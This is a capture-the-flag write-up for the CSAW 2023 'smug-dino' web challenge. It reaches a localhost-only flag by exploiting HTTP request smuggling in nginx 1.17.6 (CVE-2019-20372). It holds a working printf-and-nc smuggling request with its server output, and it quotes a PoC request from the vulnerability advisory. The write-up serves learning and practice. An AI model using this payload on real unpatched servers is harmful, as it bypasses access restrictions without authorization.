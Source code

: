 # smug-dino

- source code: [CSAW-CTF-2023-Quals/web/smug-dino at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/web/smug-dino)

## Setup

```bash
echo 127.0.0.1 web.csaw.io | tee /etc/hosts

docker build -t csaw23/smug-dino .
docker run --rm -p 3009:3009 -it csaw23/smug-dino
```

## Flag

csawctf{d0nt_smuggl3_Fla6s_!}

## Solution

As I can see from what the challge name is `smug-dino`, this challenge is intended for HTTP request smuggling.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# printf "GET /flag HTTP/1.1\r\nHost: web.csaw.io:3009\r\n\r\nGET /flag.txt HTTP/1.1\r\nHost: localhost\r\n\r\n\r\n" | nc web.csaw.io 3009
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:48:14 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://localhost:3009/flag.txt

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:48:14 GMT
Content-Type: text/plain
Content-Length: 29
Connection: keep-alive

csawctf{d0nt_smuggl3_Fla6s_!}
```

## Research

In http://web.csaw.io:3009/, there are links for `/hint` and `/flag`.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# curl -D- http://web.csaw.io:3009/flag
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:22:20 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://localhost:3009/flag.txt

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
```

Accessing `http://web.csaw.io:3009/flag`, then it redirects to `http://localhost:3009/flag.txt`.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# curl http://localhost:3009/flag.txt
csawctf{d0nt_smuggl3_Fla6s_!}
```

Now I can access `http://localhost:3009/flag.txt` because I built in my local machine.
But it is built on a different host in CTF Competition, it is expected that it would normally not be accessible to localhost.

![hint-1.png](img/hint-1.png) 

Accessing `http://web.csaw.io:3009/hint`, then it shows the input form for `Server name:` and `Server Version:`. Submitted `nginx` and `1.17.6` in each form, I got the following hint message:

```text
HINT: #1

We believe the item you seek is only accessible to localhost clients on the server; 
All other requests to /flag will be processed as a 401. 


It seems the server is issuing 302 redirections to handle 401 erors...
Is it possible to use the redirection somehow to get the localhost flag?



HINT: #2

CVE 2019-....
```

Google search with `nginx 1.17.6 vulnerability`, I found [CVE-2019-20372](https://nvd.nist.gov/vuln/detail/CVE-2019-20372).
There is the PoC.

[NGINX error_page request smuggling](https://web.archive.org/web/20191224160003/https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf)

> Example Vulnerable Request
> 
> The request that is made to the server looks as follows:
> ```
> GET /a HTTP/1.1
> Host: localhost
> Content-Length: 56
> 
> GET /_hidden/index.html HTTP/1.1
> Host: notlocalhost
> ```


Similarly, I can get `/flag.txt` by requesting `/flag`.


![http-smugling.png](img/http-smugling.png) 
